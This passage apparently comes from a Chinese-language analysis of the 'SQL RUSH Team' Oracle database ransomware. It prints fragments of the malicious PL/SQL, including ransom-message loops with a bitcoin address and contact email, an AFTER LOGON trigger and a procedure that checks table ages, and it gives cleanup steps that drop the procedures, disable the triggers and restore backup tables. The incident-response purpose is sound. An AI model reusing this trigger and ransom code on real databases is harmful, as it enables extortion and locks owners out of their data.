 ```
FOR I IN 1..2046 LOOP
DBMS_SYSTEM.KSDWRT(2, 'Hi buddy, your database was hacked by SQL RUSH Team, send 5 bitcoin to address 166xk1FXMB2g8JxBVF5T4Aw1Z5JaZ6vrSE (case sensitive), after that send your Oracle SID to mail address sqlrush@mail.com, we will let you know how to unlock your database.');
DBMS_SYSTEM.KSDWRT(2, '你的数据库已被SQL RUSH Team锁死 发送5个比特币到这个地址 166xk1FXMB2g8JxBVF5T4Aw1Z5JaZ6vrSE (大小写一致) 之后把你的Oracle SID邮寄地址 sqlrush@mail.com 我们将让你知道如何解锁你的数据库');
END LOOP;
RAISE E1;
END IF;
EXCEPTION
WHEN E1 THEN
RAISE_APPLICATION_ERROR(-20312,'你的数据库已被SQL RUSH Team锁死 发送5个比特币到这个地址 166xk1FXMB2g8JxBVF5T4Aw1Z5JaZ6vrSE (大小写一致) 之后把你的Oracle SID邮寄地址 sqlrush@mail.com 我们将让你知道如何解锁你的数据库 Hi buddy, your database was hacked by SQL RUSH Team, send 5 bitcoin to address 166xk1FXMB2g8JxBVF5T4Aw1Z5JaZ6vrSE (case sensitive), after that send your Oracle SID to mail address sqlrush@mail.com, we will let you know how to unlock your database.');
WHEN OTHERS THEN
NULL;
END;
/

```
解决方案：
1. 删除触发器及存储过程，3个触发器，4个存储过程。
2. 查找`ORACHK'||SUBSTR(SYS_GUID,10)||'`备份表，将数据进行还原即可恢复业务。

```
DROP PROCEDURE "DBMS_SYSTEM_INTERNAL";
DROP PROCEDURE "DBMS_CORE_INTERNAL";
DROP PROCEDURE "DBMS_SUPPORT_INTERNAL";
DROP PROCEDURE "DBMS_STANDARD_FUN9";
ALTER TRIGGER "DBMS_SUPPORT_INTERNAL" DISABLE;
ALTER TRIGGER "DBMS_SYSTEM_INTERNAL" DISABLE;
ALTER TRIGGER "DBMS_CORE_INTERNAL" DISABLE;

```

# 触发条件2-数据库登陆
数据库登陆后，会执行DBMS_SYSTEM_INTERNAL或DBMS_CORE_INTERNAL触发器，分别触发DBMS_SYSTEM_INTERNAL或DBMS_CORE_INTERNAL存储过程。
DBMS_SYSTEM_INTERNAL触发器，和存储过程代码如下：
```
CREATE OR REPLACE TRIGGER "DBMS_CORE_INTERNAL "
AFTER LOGON ON SCHEMA
BEGIN 
"DBMS_CORE_INTERNAL ";
END;
/
```

DBMS_SYSTEM_INTERNAL仅弹窗勒索，未发现有破坏数据库的动作：
```
PROCEDURE "DBMS_SYSTEM_INTERNAL " IS
DATE1 INT :=10;
E1 EXCEPTION;
PRAGMA EXCEPTION_INIT(E1, -20313);
BEGIN
SELECT NVL(TO_CHAR(SYSDATE-MIN(LAST_ANALYZED)),0) INTO DATE1 FROM ALL_TABLES WHERE TABLESPACE_NAME NOT IN ('SYSTEM','SYSAUX','EXAMPLE');
IF (DATE1>=1200) THEN
IF (UPPER(SYS_CONTEXT('USERENV', 'MODULE'))!='C89239.EXE')
THEN
RAISE E1;
END IF;
```